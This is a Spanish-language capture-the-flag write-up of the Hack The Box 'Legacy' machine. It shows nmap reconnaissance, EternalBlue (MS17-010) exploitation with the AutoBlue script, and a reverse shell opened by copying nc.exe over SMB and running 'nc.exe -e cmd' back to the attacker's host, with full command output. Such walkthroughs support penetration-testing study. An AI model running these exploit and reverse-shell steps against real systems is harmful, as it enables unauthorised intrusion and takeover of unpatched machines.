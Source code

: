 ```yaml
---
layout: single
title: Hack The Box Legacy
excerpt: "Resolución de la máquina Legacy en la plataforma de Hack The Box"
date: 2021-09-06
classes: wide
header:
  teaser: /assets/images/htb-legacy/legacy.jpg
  teaser_home_page: true
categories:
  - Easy
  - Windows
tags:
  - Windows
  - Injection
---
```


![](/assets/images/htb-legacy/banner-legacy.jpg)

## Legacy
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.4.

```bash
❯ ping -c 1 10.10.10.4
PING 10.10.10.4 (10.10.10.4) 56(84) bytes of data.
64 bytes from 10.10.10.4: icmp_seq=1 ttl=127 time=145 ms

--- 10.10.10.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 145.076/145.076/145.076/0.000 ms

```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Windows. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.10.4 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-27 22:23 CDT
Initiating SYN Stealth Scan at 22:23
Scanning 10.10.10.4 [65535 ports]
Discovered open port 139/tcp on 10.10.10.4
Discovered open port 445/tcp on 10.10.10.4
Completed SYN Stealth Scan at 22:24, 26.44s elapsed (65535 total ports)
Nmap scan report for 10.10.10.4
Host is up, received user-set (0.15s latency).
Scanned at 2021-08-27 22:23:35 CDT for 26s
Not shown: 65532 filtered ports, 1 closed port
Reason: 65532 no-responses and 1 reset
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE      REASON
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.62 seconds
           Raw packets sent: 131085 (5.768MB) | Rcvd: 21 (920B)

```

Mediante la función [extractPorts](/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.4
   5   │     [*] Open ports: 139,445
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 

```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sC -sV -p139,445 10.10.10.4 -oN targeted
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-27 22:26 CDT
Nmap scan report for 10.10.10.4
Host is up (0.15s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h32m17s, deviation: 2h07m16s, median: 4d23h02m17s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:1f:58 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-09-02T08:29:19+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.41 seconds
```

Observamos que se encuentra abierto el puerto 445/TCP, por lo que procedemos a validar si es vulnerable al **Eternal Blue**. Descargamos el repositorio AutoBlue-MS17-010 y primeramente, ejecutarmos el archivo `eternal_checker.py`.

[AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

```bash
❯ git clone https://github.com/3ndG4me/AutoBlue-MS17-010
Clonando en 'AutoBlue-MS17-010'...
remote: Enumerating objects: 126, done.
remote: Counting objects: 100% (50/50), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 126 (delta 40), reused 35 (delta 35), pack-reused 76
Recibiendo objetos: 100% (126/126), 94.22 KiB | 945.00 KiB/s, listo.
Resolviendo deltas: 100% (74/74), listo.
❯ cd AutoBlue-MS17-010/
❯ python eternal_checker.py 10.10.10.4
[*] Target OS: Windows 5.1
[!] The target is not patched
=== Testing named pipes ===
[+] Found pipe 'browser'
[*] Done

```

Con esto validamos que la máquina es vulnerable al exploit, por tanto se procede a ejecutar:

```bash
❯ python zzz_exploit.py -target-ip 10.10.10.4 -port 445 10.10.10.4
[*] Target OS: Windows 5.1
[+] Found pipe 'browser'
[+] Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x821a9da8
SESSION: 0xe20e3190
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
[*] make this SMB session to be SYSTEM
[+] current TOKEN addr: 0xe1bc7030
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1bc70d0
[*] overwriting token UserAndGroups
[*] have fun with the system smb session!
[!] Dropping a semi-interactive shell (remember to escape special chars with ^) 
[!] Executing interactive programs will hang shell!
C:\WINDOWS\system32>
```

Para manejarnos mejor, establecemos una nueva conexión, en caso que en el programa nos bote. Primero nos transferimos el programa **nc.exe**, nos ponemos en escucha por el puerto 443 y procedemos a ejecutar el archivo estableciendo la conexión.

```bash
C:\WINDOWS\system32>mkdir C:\Windows\Temp\test

C:\WINDOWS\system32>copy \\10.10.14.15\smbFolder\nc.exe C:\Windows\Temp\test\nc.exe
        1 file(s) copied.

C:\WINDOWS\system32>
C:\WINDOWS\system32>C:\Windows\Temp\test\nc.exe -e cmd 10.10.14.15 443
```

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1045)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
[*] Closing down connection (10.10.10.4,1045)
[*] Remaining connections []

❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.4] 1048
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

```

Con esta conexión ya podemos movernos con mayor facilidad. Ya somos administradores del equipo y podemos visualizar las flags (user.txt y root.txt).
